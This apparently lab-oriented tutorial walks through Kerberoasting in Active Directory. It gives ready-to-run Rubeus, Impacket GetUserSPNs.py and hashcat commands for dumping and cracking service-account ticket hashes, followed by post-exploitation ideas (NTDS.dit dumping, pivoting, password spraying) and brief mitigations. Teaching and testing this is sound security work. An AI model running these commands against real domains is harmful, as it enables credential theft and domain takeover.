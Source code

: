 # Kerberoasting with Rubeus & Impacket

### **Introduction**

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

***

### **Method 1 : Kerberoasting with Rubeus**

1. `cd Downloads` - navigate to the directory Rubeus is in
2. `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users

<figure><img src="../../../../../../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **Method 2 - Impacket**

#### Impacket Installation

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1. `cd /opt` navigate to your preferred directory to save tools in
2. download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19
3. `cd Impacket-0.9.19` navigate to the impacket directory
4. `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket

1. `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located
2. `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.15.51 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
3. `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

***

### **What Can a Service Account do**

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

***

### **Kerberoasting Mitigation**

#### Strong Service Passwords

If the service account passwords are strong then kerberoasting will be ineffective

#### Don't Make Service Accounts Domain Admins

Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

***
